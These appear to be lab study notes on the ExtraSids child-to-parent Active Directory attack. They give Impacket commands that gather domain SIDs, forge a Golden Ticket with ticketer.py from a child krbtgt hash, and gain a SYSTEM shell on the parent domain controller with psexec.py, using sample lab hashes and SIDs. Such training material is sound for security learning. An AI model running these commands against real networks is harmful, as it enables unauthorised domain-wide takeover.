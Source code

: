 ```bash
lookupsid.py <CHILD.DOMAIN.LOCAL>/<CHILD-DC-USER>@<CHILD_DC_IP>
  # USERS/GROUPS RID +[ domain SID ]

# or to filter the doamin sid
lookupsid.py <CHILD.DOMAIN.LOCAL>/<CHILD-DC-USER>@<CHILD_DC_IP> | grep "Domain SID"
```
#### Grabbing the Parent Domain SID & Attaching to Enterprise Admin's RID
Next, we can rerun the command, targeting the ROOT  Domain Controller (DC01) at ROOT DC-IP and grab the domain SID S-1-5-21-xxxxxxxx-xxxxxxxxx-xxxxxxx and attach the RID of the Enterprise Admins group. Here is a handy list of well-known SIDs.

```bash
lookupsid.py <CHILD.DOMAIN.LOCAL>/<CHILD-DC-USER>@<DC_IP> | grep -B12 "Enterprise Admins"
```

We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user hacker to forge our Golden Ticket.
==example:==
-  The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
    - The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
    - The name of a target user in the child domain (does not need to exist!): hacker
    - The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
    - The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519
#### ExtraSids Attack - Constructing a Golden Ticket using ticketer.py

Next, we can use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by `-domain-sid`) and the parent domain (specified by `-extra-sid`).
```bash
ticketer.py -nthash <CHILD-DC-krbtgt-HASH> -domain <CHILD.DOMAIN.LOCAL> -domain-sid <CHILD-DOMAIN-SID> -extra-sid <Enterprise-Admins-group-SID> hacker
```
[+] ==The ticket will be saved down to our system as a credential **cache (ccache)** file, which is a file used to hold Kerberos credentials. Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.==
#### Setting the KRB5CCNAME Environment Variable

```bash
export KRB5CCNAME=hacker.ccache 
```

#### Getting a SYSTEM shell using Impacket's psexec.py
We can check if we can successfully authenticate to the parent domain's Domain Controller using [Impacket's version of Psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py). If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.

```bash
psexec.py CHILD.Domain.LOCAL/hacker@<COMPUTER-(FQDN)-DC01>.<DOMAIN.LOCAL> -k -no-pass -target-ip <DC-IP>
#COMPUTER-DC01.DOMAIN.LOCAL → The FQDN (Fully Qualified Domain Name) of a machine
 #  C:\Windows\system32> whoami => nt authority\system
 # C:\Windows\system32> hostname => ACADEMY-EA-DC01
```
